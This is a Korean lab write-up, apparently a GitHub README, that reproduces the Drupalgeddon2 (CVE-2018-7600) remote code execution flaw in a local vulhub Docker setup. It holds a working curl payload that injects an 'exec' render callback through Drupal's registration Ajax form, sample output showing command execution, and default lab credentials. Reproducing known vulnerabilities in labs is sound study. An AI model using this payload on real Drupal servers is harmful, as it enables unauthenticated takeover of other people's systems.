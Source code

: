 CVE-2018-7600 - Drupalgeddon2 PoC

개요

취약점 번호: CVE-2018-7600

이름: Drupalgeddon2

설명: Drupal Ajax 폼 렌더링 과정에서 발생하는 RCE 취약점으로 인증 없이 명령어 실행이 가능함.

환경 구성

# 저장소 클론 및 디렉토리 이동
git clone https://github.com/Parkjoonhyeong/vulhub.git
cd vulhub/drupal/CVE-2018-7600

docker-compose.yml 내용 예시

version: '2'
services:
  web:
    image: vulhub/drupal:8.5.0
    ports:
      - "8080:80"
    depends_on:
      - db
  db:
    image: mysql:5.5
    environment:
      MYSQL_ROOT_PASSWORD: root
      MYSQL_DATABASE: drupal

# 컨테이너 실행
sudo docker-compose up -d

Drupal 설치 정보

접속 주소: http://localhost:8080

DB 설정:

Database: drupal

Username: root

Password: root

Host: db

Port: 3306

Admin 계정:

ID: root

PW: root1234

PoC 명령어

curl -s -X POST "http://localhost:8080/user/register?element_parents=account/mail/%23value&ajax_form=1&_wrapper_format=drupal_ajax" \
-H "Content-Type: application/x-www-form-urlencoded" \
--data "form_id=user_register_form&_drupal_ajax=1&mail[#post_render][]=exec&mail[#type]=markup&mail[#markup]=id"

PoC 결과 예시

[{"command":"insert","method":"replaceWith","selector":null,"data":"uid=33(www-data) gid=33(www-data) groups=33(www-data)..."}]

해당 출력은 명령어 id가 서버에서 실행되어 리눅스 사용자 정보가 응답으로 반환된 결과임.

✅ 취약점 성공적으로 재현됨.

CVE-2018-7600은 Drupal의 폼 시스템에서 발생한 RCE 취약점으로, 인증 없이 서버에 명령어 실행이 가능한 매우 위험한 보안 결함입니다.

본 실습에서는 취약한 Drupal 8.5.0 환경을 Docker로 재현하고, PoC를 통해 id 명령 실행에 성공하였습니다.

실습 결과는 HTTP 응답 본문을 통해 명확히 확인되었으며, 관련 내용은 GitHub 레포에도 반영하였습니다.

7. 참고 자료

NVD - CVE-2018-7600

Drupal 공식 보안 권고

Vulhub PoC 환경
